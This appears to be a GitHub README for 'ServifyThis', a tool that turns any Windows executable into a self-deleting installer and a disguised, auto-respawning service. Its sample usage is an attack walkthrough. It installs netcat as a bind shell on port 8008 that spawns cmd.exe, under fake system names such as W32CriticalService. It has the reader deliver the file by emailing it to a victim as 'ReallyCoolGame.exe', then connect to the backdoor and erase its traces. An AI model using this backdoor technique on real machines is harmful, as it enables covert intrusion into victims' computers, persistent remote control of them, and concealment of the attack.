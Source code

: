# ServifyThis

###**ServifyThisUsage Instructions:**

ServifyThis will take any Win32 executable (either command-line or GUI) and wrap it into a new executable/service/installer program that will:

1) Dump the "servified" executable on the target machine at a user-specified location and with a user-specified name.

2) Create, dump, and install a Win32 service executable that will automatically run the "servified" executable both immediately upon installation and whenever Windows boots. This service can be set to automatically respawn the "servified" executable if it exits. The name and location of the service executable, its file path, and the service name (shown in the Service control panel) are all user-specified. Optionally, the GUI of the "servified" executable can be displayed... although I don't know why you might want to...

3) The installation package self-deletes when its payload has been delivered.

4) Running the service executable with a "-u" (uninstall) option, will cause it to stop the service, stop the executable, remove the "servified" executable and finally, self-delete, leaving nothing behind on the previously exploited machine.

The parameters entered into the GUI of ServifyThis should be self-explanatory, but the following example usage should answer any lingering questions.

###**Sample Usage:**

Launch ServifyThis.exe

The parameters are broken into two groups, parameters that apply to the local machine and remote parameters that apply to the machine where the "servified" executable will be installed.

Locally, we want to choose our copy of the netcat executable:

Application to "servify": c:\program files\attack tools\nc.exe

Remotely, we want to set netcat up to work like this:

`Application Pathname: c:\windows\win32svc.exe
Command Parameters: -l -p 8008 -e c:\windows\system32\cmd.exe
Working Directory: c:\
Service Display Name: W32CriticalService
Service Pathname: c:\windows\system32\w32critsvc.exe`

Additionally, we need to make sure that the "Respawn" checkbox is checked, as it is by default. Finally, let's set our respawn interval to 1 sec.

Once we click on the "OK" button, ServifyThis spits out a new executable called "Servified.exe" in the current directory.

We then arrange for "Servified.exe" to be run on our target machine, say, by changing the name to something like "ReallyCoolGame.exe" and emailing it to the machine's user, for instance.

When Servified.exe is run on the target machine, it'll drop a copy of nc.exe into the c:\windows directory under the name win32svc.exe. It will create and drop a new service (c:\windows\system32\w32critsvc.exe) which it will install and launch. The sole purpose of this service is to launch the copy of nc.exe (now called c:\windows\win32svc.exe) with the parameters specified (which will cause it to listen on port 8008 and spawn a command shell back to anyone who connects to that port).

With that work done, Servified.exe will simply disappear, deleting itself.

We then use a local copy of netcat to connect up to our target:

`c:\Program Files\Attack Tools>nc  8008`
  
This will return us a command shell anchored in the c:\ directory, as that's what we specified for nc.exe's working directory.

We can do anything we want to do with that backdoor, confident in the knowledge that it will both continuously respawn while the machine is running, and will autostart if the machine is rebooted.

Finally, once we've done our dirty work on the target machine, we can simply change to the c:\windows\system32 directory and issue the command:

`c:\>w32critsvc -u`
  
which will stop the running service, stop the running instance of nc, and delete both the c:\windows\win32svc.exe file and the c:\windows\system32\w32critsvc.exe file.
